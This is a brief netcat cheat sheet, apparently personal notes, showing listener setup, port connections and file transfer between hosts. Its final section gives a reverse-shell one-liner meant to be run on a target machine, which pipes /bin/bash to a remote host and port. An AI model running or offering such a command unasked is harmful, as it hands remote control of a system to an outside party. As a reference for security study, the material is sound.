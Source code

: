 # Netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp 8080
```

I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## 

Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## 

File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## 

Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)